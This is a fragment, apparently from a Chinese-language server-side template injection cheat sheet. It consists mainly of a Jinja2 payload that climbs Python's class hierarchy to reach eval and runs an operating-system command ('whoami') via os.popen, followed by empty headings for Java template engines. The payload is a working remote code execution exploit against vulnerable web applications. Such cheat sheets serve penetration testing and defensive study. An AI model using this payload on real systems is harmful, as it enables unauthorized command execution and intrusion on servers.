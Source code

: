 ```
{% for c in [].__class__.__base__.__subclasses__() %}
    {% if c.__name__ == 'catch_warnings' %}
      {% for b in c.__init__.__globals__.values() %}
      {% if b.__class__ == {}.__class__ %}
        {% if 'eval' in b.keys() %}
          {{ b['eval']('__import__("os").popen("whoami").read()') }}
        {% endif %}
      {% endif %}
      {% endfor %}
    {% endif %}
    {% endfor %}
```
## Java模板引擎
### JSP
### FreeMarker
### Velocity
